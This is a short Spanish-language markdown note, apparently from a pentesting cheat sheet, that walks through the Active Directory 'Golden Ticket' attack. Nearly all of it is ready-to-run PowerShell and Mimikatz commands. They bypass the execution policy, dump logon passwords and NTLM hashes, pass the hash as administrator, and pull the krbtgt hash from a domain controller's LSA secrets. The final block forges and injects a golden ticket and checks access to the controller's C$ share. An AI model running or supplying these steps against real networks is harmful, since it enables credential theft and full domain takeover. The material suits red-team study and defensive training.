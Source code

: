 # Golden Ticket 

Tags: #AD #Window #Powershell 

Es un ataque de ciberseguridad malicioso donde un atacante gana acceso ilimitado a un dominio de una organización, accesando a la data almacenada en AD. Explota una vulnerabilidad en el protocolo de autenticacion de Kerberos, donde es usado para acceder al AD, permitiendo al atacante un 'bypass' normal. 

```bash 
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 
 	
❯ . .\PowerView.ps1                          # Importamos el modulo
❯ . .\Invoke-Mimikatz.ps1 
❯  Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"' # Nos muestra el hash NTLM hash, SID de todos los usuarios asi como el del 'Admin'

# Ahora haremos el Pass The Hash 
❯ Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:<Domain> /ntlm:<NTLM-Hash> /run:powershell.exe"' 
```

```bash 
# En la nueva consola que se abre con el comando anterior vamos a extraer hash de kerberos de las password de las cuentas
❯ powershell -ep bypass                      # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 

❯ . .\Invoke-Mimikatz.ps1 
❯  Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DomainController> # Muestra info de los secretos de LSA y copiamos el NTLM de 'krbtgt'
```

```bash 
# Regresamos a la primer consola, generamos e inyectamos el 'Golden Ticket'
❯ Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Domain> /sid:12345 /krbtgt:<krbtgt> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'  # Generamos e inyectamos nuestro 'Golden Ticket' 

❯ klist                                      # Muestra info del ticket 
	❯ klist purge                           # Si hacemos mal el ticket los podemos eliminar asi 
❯ ls \\DomainController\C$                   # Verificar si ingresamos al 'Domain Controller'
```